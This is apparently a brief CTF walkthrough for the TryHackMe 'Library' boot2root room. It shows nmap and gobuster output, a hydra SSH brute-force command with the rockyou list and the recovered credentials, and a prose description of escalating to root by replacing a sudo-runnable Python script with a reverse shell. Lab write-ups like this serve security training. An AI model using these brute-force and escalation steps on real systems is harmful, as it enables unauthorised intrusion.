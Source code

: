 ```yaml
---

title: Walkthrough - Library
published: true
---
```


Tags: Security.
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy
URL: [https://tryhackme.com/room/bsidesgtlibrary](https://tryhackme.com/room/bsidesgtlibrary)

* * *

## Notes

```
Discovered open port 22/tcp on 10.10.33.54
Discovered open port 80/tcp on 10.10.33.54
```

- `gobuster dir -u http://library.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 -x txt --no-error`

```
/images               (Status: 301) [Size: 311] [--> http://library.thm/images/]
/robots.txt           (Status: 200) [Size: 33]     
```

- inside robots.txt

```
User-agent: rockyou 
Disallow: /
```

Nothing useful here.

We can use the username meliodas on the homepage to try to brute ssh.

- `hydra -l meliodas -P /usr/share/seclists/Passwords/rockyou.txt 10.10.33.54 ssh`

```
[22][ssh] host: 10.10.33.54   login: meliodas   password: iloveyou1
```

checking sudo -l we can see the user can run the python script as sudo so deleting the file and remaking a new one with a reverse shell lets us connect and collect our flags.

* * * 

## What is the content of root.txt?

![](/assets/library01.png)

* * * 

